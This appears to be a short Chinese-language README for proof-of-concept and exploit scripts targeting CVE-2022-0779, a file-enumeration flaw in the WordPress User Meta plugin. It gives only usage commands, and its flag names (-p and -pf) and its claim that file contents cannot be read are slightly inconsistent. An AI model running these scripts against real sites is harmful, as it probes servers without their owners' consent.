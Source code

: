 
wordpress插件User Meta本地文件枚举漏洞（CVE-2022-0779）
此漏洞只能检测某文件是否存在，并不能读取文件的内容
pf_nonce的值需要到页面源码中找

python3 CVE-2022-0779-POC.py -t <target> -p <pf_nonce>
-t url: 目标地址
-pf pf_nonce: 源代码中的pf_nonce
-h help: 帮助
python3 CVE-2022-0779-EXP.py -t <target> -p <pf_nonce> -f <filename>
-t url: 目标地址
-pf pf_nonce: 源代码中的pf_nonce
-f filename: 要读取的文件名
-h help: 帮助
